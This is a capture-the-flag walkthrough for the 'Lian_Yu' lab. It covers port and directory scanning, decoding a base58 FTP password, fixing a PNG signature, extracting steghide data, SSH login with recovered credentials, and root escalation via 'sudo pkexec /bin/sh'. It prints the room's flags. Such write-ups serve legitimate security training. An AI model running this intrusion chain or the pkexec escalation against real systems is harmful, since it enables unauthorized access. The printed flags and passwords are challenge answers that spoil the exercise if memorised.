 # Lian_Yu

## What is the Web Directory you found?

- Scan port
    
    ```bash
    sudo nmap -sV -A -n -O 10.10.9.36
    ```
    
    > ftp
    ssh
    http
    > 
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36 -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > island
    > 
    - <h2 style="color:white"> vigilante</h2>
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > 2100
    > -- you can avail your .ticket here but how? -- 

---

## What is the file name you found?

- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island/2100 -w wordlist/dirbuster/directory-2-medium.txt -x ticket
    ```
    
    > /green_arrow.ticket (Status: 200)
    > 
    - `RTy8yhBQdscX`

---

## What is the FTP Password?

- `RTy8yhBQdscX`

<aside>
💡 HIT
     Looks like base? [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

</aside>

- From base58
    - `!#th3h00d`

---

## What is the file name with SSH password?

- Login fpt
    
    ```bash
    fpt 10.10.9.36
    vigilante
    !#th3h00d
    ```
    
- Get files
    
    ```bash
    ls -la
    get .other_user
    get Leave_me_alone.png
    get Queen's_Gambit.png
    get aa.jpg
    exit
    ```
    
- Scan images
    - exiftool
        - See the properties
            
            ```bash
            sudo apt install exiftool
            ```
            
        - Sintaxe
            
            ```bash
            exiftool <file>
            ```
            
    
    ---
    
    - Scan
        
        ```bash
        exiftool aa.jpg
        exiftool Leave_me_alone.png
        ```
        
        > Error : File format error
        > 
    
    ---
    
    - Signature png
        - [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
        
        ```bash
        Ctrl + f + png
        ```
        
        - `89 50 4E 47 0D 0A 1A 0A‰PNG␍␊␚␊`0
        png
        Image encoded in the Portable Network Graphics format[21]
    
    ---
    
    - hexedit
        - See hex
            
            ```bash
            sudo apt install hexedit
            ```
            
        - Sintaxe
            
            ```bash
            hexedit <file>
            ```
            
        - hexedit Leave_me_alone.png
        - Paste signature png
            
            ![Untitled](Untitled.png)
            
        - Save
    
    ---
    
    ![Leave_me_alone.png](Leave_me_alone.png)
    
    ---
    
    - Extract files
        - steghide
            - Extract files from inside another file
                
                ```bash
                sudo apt install steghide
                ```
                
            - Sintaxe
                
                ```bash
                To embed emb.txt in cvr.jpg: steghide embed -cf cvr.jpg -ef emb.txt
                To extract embedded data from stg.jpg: steghide extract -sf stg.jpg
                ```
                
                ```bash
                steghide extract -sf file.jpg
                ```
                
        
        ---
        
        - Extract files
            
            ```bash
            steghide extract -sf aa.jpg
            password
            unzip ss.zip
            cat shado
            ```
            
        
- `shado`

---

## user.txt

- cat .other_user
    - Slade Wilson was 16 years old when he enlisted in the […]
- slade M3tahuman
    
    ```bash
    ssh slade@10.10.9.36
    M3tahuman
    cat user.txt
    ```
    
- `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

---

## root.txt

```bash
sudo -l -l
```

> /usr/bin/pkexec
> 
- [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/)
    
    ```bash
    sudo pkexec /bin/sh
    sudo su
    cat root.txt
    ```
    
- `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`
